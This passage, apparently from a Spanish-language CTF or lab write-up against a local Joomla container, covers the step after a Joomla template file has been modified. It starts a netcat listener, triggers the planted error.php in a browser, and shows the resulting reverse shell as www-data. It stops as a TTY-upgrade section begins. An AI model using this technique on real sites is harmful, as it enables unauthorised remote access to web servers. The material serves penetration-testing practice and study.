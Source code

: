 ![alt text](../../images/revshelljoomla.png)

Guardamos los cambios.

Ponemos un `listener` en nuestra máquina atacante, a la espera de la conexión.

```bash
sudo nc -nlvp 4444 
```

A continuación, accedemos por navegador al archivo `error.php`.

```
http://172.17.0.2/templates/cassiopeia/error.php
```

Info:
```
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 54510
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
www-data@5bc7cbda960b:/var/www/html/joomla/templates/cassiopeia$
```

Recibimos la `reverse shell` en nuestro listener como usuario `www-data`.

# TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:
